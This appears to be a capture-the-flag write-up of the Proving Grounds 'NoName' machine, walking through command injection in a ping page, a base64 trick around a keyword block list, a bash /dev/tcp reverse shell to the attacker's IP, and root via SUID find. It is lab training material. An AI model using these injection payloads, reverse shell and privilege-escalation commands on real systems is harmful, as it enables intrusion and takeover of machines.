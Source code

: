 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```


Easy rated Proving Grounds Play machine that covers command injection and SUID privesc. 

<!--more-->


## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

- I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures posted with no functionality
    - `superadmin.php` looks more interesting as looks like there is some ping functionality that we can play with.


![image](\assets\images\noname-pg\2022-07-27-15-23-21.png)

- Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](\assets\images\noname-pg\2022-07-27-15-42-17.png)

- Trying command injection with `sleep` command.
    - I tried `;` and `&` but did not work, while trying `|` worked

![](\assets\images\noname-pg\2022-07-27-15-43-36.png)

- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command resulting for a 5 second delay in the response.
    - As we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked.
    - I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- Looks like there are certain blacklisted characters and commands, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a base64 encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
    - `echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`

![](\assets\images\noname-pg\2022-07-27-16-26-33.png)

- And it worked, so I tried with a reverse shell `bash -i >& /dev/tcp/192.168.49.210/80 0>&1`
    - `|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash` did not work for some reason, which is really weird not sure why. So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the base64 decoded payload instead of executing it with bash, and I got the following response
           
        ![](\assets\images\noname-pg\2022-07-27-16-48-44.png)

        - Looks like it is not printing the whole base64 encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

        ![](\assets\images\noname-pg\2022-07-27-16-46-09.png)

## Privesc


- Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](\assets\images\noname-pg\2022-07-27-16-52-16.png)

- Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](\assets\images\noname-pg\2022-07-27-16-54-22.png)

